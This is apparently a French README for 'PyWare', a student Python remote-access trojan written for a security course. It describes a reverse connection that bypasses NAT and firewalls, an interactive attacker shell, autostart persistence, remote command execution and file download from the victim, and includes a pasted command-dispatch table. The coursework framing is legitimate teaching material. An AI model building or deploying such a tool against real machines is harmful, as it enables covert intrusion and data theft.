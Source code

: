 # PyWare
## Introduction
PyWare est un petit malware écrit en python. Il rentre dans le cadre du cursus de sécurité des système de la [Henallux](https://www.henallux.be/). En particulier le cours R209: Developpement donné en deuxième bachelier.

PyWare ne se charge pas de l'infection et part du postula que la victime est déjà infecté pour le démarrage de PyWare.

## Prérequis
L'ensemble des programmes ont été écrit et testé avec [Python](https://www.python.org) [3.7.2](https://www.python.org/downloads/release/python-372/) . Celui-ci est nécessaire sur les deux machines et de préférence ajouté à la variable d'environnement PATH. De plus, le module [PyCryptodome](https://pycryptodome.readthedocs.io) est nécessaire sur le serveur de l'attaquant. Si le module n'est pas présent sur la victime, une fonctionnalité de PyWare l'intalle.

## Architecture
L'attaquant fait office de serveur et attant la connection depuis la victime. La victime, de son côté, essaye une connection vers l'un des serveur de l'attaquant à un interval de temps déterminer. Cette solution permet de s'affranchir des informations de connection de la victime. De plus, elle permet de contourner les problèmes lié au NAT et Firewall. Une fois la connection établie, un shell intéractif est ouvert côté attanquant et les diverses commandes acceptable sont ensuite transféré à la victime. Le retour de la commande est renvoyé à l'attaquant et est affichée.

## Fonctionnement
- Attaquant
  - PyWareGen : Générateur du fichier de configuration listant les différents serveurs que l'attaquant peut utiliser, ainsi que leurs informations de connection.
  - PyWareServ : Serveur de connection. Il attend une connection de la victime puis ouvre un shell intérectif.
- Victime
  - Malware : Client de connection vers le serveur. Il essaye d'ouvrir une connection vers celui-ci à partir du fichier de configuration. Le nom du fichier est laissé libre à l'utilisateur. Il nécéssite aussi le fichier *crypto.py*.
  - Configuration : Fichier de configuration regroupant 

## Fonctionnalitées
### Fonctions de bases
 - exit : Termine la connection entre les deux machines et ferme le programme côté attaquant. Par contre, PyWare continue de tourner sur la cible et retente une connection vers le serveur sélectionnné à un interval de temps déterminer dans le fichier de configuration. Pour arrêter le programme sur les deux machines, utilisez la commande *kill*.
 - kill : Termine la connection et ferme les programmes des deux côtés.
 - quit : Alias de la commande *exit*.

### Fonctions côté serveur
Ces fonctionnalitée ne sont exécuté que du côté du serveur et ne transmet rien à la victime. 
 - help \[commands,\] : Affiche les différentes commandes demandé par l'utilisteur, ainsi qu'une brêve explications de chacun d'elles. Si aucune commande n'est fournis, il affiche alors toutes les commandes disponibles.
 - list : List les différentes commandes disponibles


                                   "/pwd": command_tuple(lambda: self.local_pwd(),
                                                         "/pwd",
                                                         "Get the current working directory on the local machine."),
                                   "/cd": command_tuple(lambda arg="": self.local_cd(arg),
                                                        "/cd Dir",
                                                        "Change the working directory to \'Dir\'"
                                                        " on the local machine."),
                                   "/ls": command_tuple(lambda arg="": self.local_ls(arg),
                                                        "/ls [Dir]",
                                                        "List files and directory of \'Dir\'  on the local machine."
                                                        " If \'Dir\' is not specify, list the current directory."),
                                   "/dir": command_tuple(lambda arg="": self.local_ls(arg),
                                                         "/dir [Dir]",
                                                         "Alias for \'/ls\'."),
                                   "getinfo": command_tuple(lambda arg="": self.getinfo(arg),
                                                            "getinfo [options,]",
                                                            "Get information from the victim. Options available : "
                                                            "user, hostname, fqdn, ip, os, version, architecture, "
                                                            "language, time"),
                                   "autostart": command_tuple(lambda arg="": self.autostart(arg),
                                                              "autostart [Name]",
                                                              "PyWare on client starts automatically."
                                                              " [Name] is the name used for the registration"),
                                   "newkeys": command_tuple(lambda: self.newkeys(),
                                                            "newkeys",
                                                            "Generate and use a new session key."),
                                   "exec": command_tuple(lambda arg="": self.exec(arg),
                                                         "exec command",
                                                         "Execute a command on the client and print result."
                                                         " Warning, it is an integrative mode."),
                                   "getusers": command_tuple(lambda: self.getusers(),
                                                             "getusers",
                                                             "List all users on the ditant system."),
                                   "installmodules": command_tuple(lambda: self.install_modules(),
                                                                   "installmodules",
                                                                   "Install the python modules for full compatibility."
                                                                   " A reload is needed after."),
                                   "reload": command_tuple(lambda: self.reload(),
                                                           "reload",
                                                           "Reload the client on the target."),
                                   "getservices": command_tuple(lambda: self.getservices(),
                                                                "getservicse",
                                                                "Get the list of the running services."),
                                   "ps": command_tuple(lambda: self.getservices(),
                                                       "ps",
                                                       "Alias for getservices"),
                                   "pwd": command_tuple(lambda: self.pwd(),
                                                        "pwd",
                                                        "Get the current working directory."),
                                   "cd": command_tuple(lambda arg="": self.cd(arg),
                                                       "cd Dir",
                                                       "Change the working directory to \'Dir\' ."),
                                   "ls": command_tuple(lambda arg="": self.ls(arg),
                                                       "ls [Dir]",
                                                       "List files and directory of \'Dir\' . If \'Dir\'"
                                                       " is not specify, list the current working directory."),
                                   "dir": command_tuple(lambda arg="": self.ls(arg),
                                                        "dir [Dir]",
                                                        "Alias for \'ls\'."),
                                   "download": command_tuple(lambda arg="": self.download(arg),
                                                             "download File",
                                                             "Download from the target to local computer."),
                                   "upload": command_tuple(lambda arg="": self.upload(arg),
                                                           "upload File",
                                                           "Upload file to the server")}

                                                         
## Algorithmique
Pour comprendre comment fonctionne les différentes fichiers, veuillez vous référer au fichier [algorithmique.md](algorithmique.md).

## Références
